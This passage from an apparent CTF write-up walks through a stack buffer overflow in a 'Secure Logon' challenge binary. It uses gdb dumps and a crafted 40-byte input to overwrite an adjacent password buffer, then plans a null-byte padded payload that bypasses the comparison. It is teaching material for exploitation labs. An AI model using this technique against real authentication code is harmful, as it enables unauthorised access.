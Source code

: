 
This is where things get intersting. Recall the following: 

- The size given to fgets was 0x32, which allows us to send 50 bytes of data
- If we send more than 32 bytes of data, our input will flow into the buffer below user_password, which is the `otp_password` buffer
- To authenicate, a comparison is made between `rbp-0x30` and `rbp-0x50`.

If we can overwrite data at `rbp-0x30` within the 50 bytes of data we can send, then we can control the strings being compared. Lets take a look where rbp-0x30 is: 

```gdb
wdb> x/gx $rbp-0x30
0x7fffffffeda0: 0x555352534858000a
```
Since rbp-0x50 is only 32 bytes below rbp-0x30, it will only take 40 bytes to completely overwrite the memory at rbp-0x30. We can test this by stopping the binary and re-running with 32 'A's as input plus another 8 'B's:

```bash
>>> 'A' * 32 + 'B' * 8
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
```

```gdb
wdb> run
Started '03_level_1'
------------------------------------------------------------
--[ Stack Smashing Level #1 - Secure Logon
------------------------------------------------------------
Breakpoint 0: 0x400bb9, main+178
wdb> ni
Enter password:
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
0x400bbe in main ()
wdb> x/10gx $rbp-0x50
0x7fffffffed80: 0x4141414141414141    0x4141414141414141
0x7fffffffed90: 0x4141414141414141    0x4141414141414141
0x7fffffffeda0: 0x4242424242424242    0x414d4d49574e000a
0x7fffffffedb0: 0x5a584a5356495242    0x0052534843454556
0x7fffffffedc0: 0x00007fffffffeeb0    0xf8eb0d2099883200
```
As suspected, with 40 bytes, we can completely overwrite rbp-0x30. 


## Solving the Challenge

Now we have control over rbp-0x30 as well as our input at rbp-0x50, we have what we need to be authenticated. To solve the challenge, we create a python script which will do the following:

- Send 8 'A's into rbp-0x50 and 8 '\0' (NULL Bytes) into rbp-0x48, rbp-0x40 and rbp-0x38 (24 bytes).
- Send 8 'A's into rbp-0x30 and 8 '\0' (NULL Bytes) into rbp-0x28

The reason we have to use NULL bytes in our payload is to terminate the strings we want to compare, so only 8 bytes will compared, and not the whole 32 byte buffer. We use a python script to do this so we can send this directly into the process, rather than interactive prompt. This is because the null byte will terminate our string too early when using the interactive prompt.
